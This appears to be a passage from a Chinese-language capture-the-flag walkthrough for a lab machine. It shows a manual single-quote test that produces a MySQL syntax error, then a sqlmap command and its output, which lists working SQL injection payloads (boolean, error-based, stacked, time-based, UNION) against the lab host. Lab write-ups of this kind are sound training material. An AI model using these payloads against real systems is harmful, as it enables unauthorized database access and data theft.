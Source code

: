 ```console
尝试注入单引号 '

http://192.168.1.57:8080/mercuryfacts/'/

报错

"You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1"
```

![image](../assets/post_img/Snipaste_2024-04-23_22-13-18.png)


## Foothold sql injection

###  sql injection

```console
sqlmap -r sqli.txt --batch -v 3
```

```console
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://192.168.1.57:8080/mercuryfacts/1 AND 4638=4638/
    Vector: AND [INFERENCE]

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: http://192.168.1.57:8080/mercuryfacts/1 AND GTID_SUBSET(CONCAT(0x71706a7171,(SELECT (ELT(6933=6933,1))),0x7171707871),6933)/
    Vector: AND GTID_SUBSET(CONCAT('[DELIMITER_START]',([QUERY]),'[DELIMITER_STOP]'),[RANDNUM])

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: http://192.168.1.57:8080/mercuryfacts/1;SELECT SLEEP(5)#/
    Vector: ;SELECT IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://192.168.1.57:8080/mercuryfacts/1 AND (SELECT 6658 FROM (SELECT(SLEEP(5)))obGx)/
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])

    Type: UNION query
    Title: Generic UNION query (NULL) - 1 column
    Payload: http://192.168.1.57:8080/mercuryfacts/1 UNION ALL SELECT CONCAT(0x71706a7171,0x61764e6742596456757464436148705963575159555751644c79474344644759516e616266786e72,0x7171707871)-- -/
    Vector:  UNION ALL SELECT [QUERY]-- -
```